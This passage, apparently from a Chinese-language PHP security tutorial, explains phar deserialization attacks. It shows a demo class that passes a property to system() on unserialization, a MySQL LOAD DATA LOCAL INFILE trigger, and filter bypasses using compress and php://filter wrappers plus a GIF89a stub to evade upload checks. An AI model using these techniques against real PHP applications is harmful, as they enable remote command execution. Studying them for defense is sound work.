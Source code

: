```php
    
<?php
class A {
    public $s = '';
    public function __wakeup () {
        system($this->s);
    }
}
$m = mysqli_init();
mysqli_options($m, MYSQLI_OPT_LOCAL_INFILE, true);
$s = mysqli_real_connect($m, 'localhost', 'root', 'root', 'testtable', 3306);
$p = mysqli_query($m, 'LOAD DATA LOCAL INFILE \'phar://test.phar/test\' INTO TABLE a  LINES TERMINATED BY \'\r\n\'  IGNORE 1 LINES;');
?>

```

### 绕过方式

当环境限制了phar不能出现在前面的字符里。可以使用`compress.bzip2://`和`compress.zlib://`等绕过

```php
compress.bzip://phar:///test.phar/test.txt
compress.bzip2://phar:///test.phar/test.txt
compress.zlib://phar:///home/sx/test.phar/test.txt
php://filter/resource=phar:///test.phar/test.txt

当环境限制了phar不能出现在前面的字符里，还可以配合其他协议进行利用。
php://filter/read=convert.base64-encode/resource=phar://phar.phar

GIF格式验证可以通过在文件头部添加GIF89a绕过
1、$phar->setStub(“GIF89a”.“<?php __HALT_COMPILER(); ?>”); //设置stub
2、生成一个phar.phar，修改后缀名为phar.gif
```











































